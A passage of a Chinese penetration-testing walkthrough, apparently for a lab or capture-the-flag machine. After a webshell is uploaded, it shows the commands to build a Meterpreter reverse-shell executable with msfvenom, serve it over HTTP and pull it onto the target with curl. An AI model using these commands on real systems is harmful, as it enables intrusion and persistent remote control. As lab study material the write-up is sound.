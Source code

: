 ![截图](c695e3ce939ca5ff62856140406766e1.png)

可以看到，我们的shell已经上传上去了。

**因为每5分钟会执行一次清理程序，将我们的webshell给清理掉，所以我们需要更换一个我们可以长期连接的shell。这里我打算使用msf的shell，于是先用msfvenom生成一个exe的木马。**

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.10.14.4 lport=4444 -f exe -o shell.exe
```

![截图](6ca7b700a2d6e703657c7d10e26b2249.png)

这里我们需要在kail开启一个http服务，将kail生成的木马下载到目标机中，然后运行此木马。

```
python3 -m http.server 80
Curl http://10.10.14.4/shell.exe -o shell.exe
```

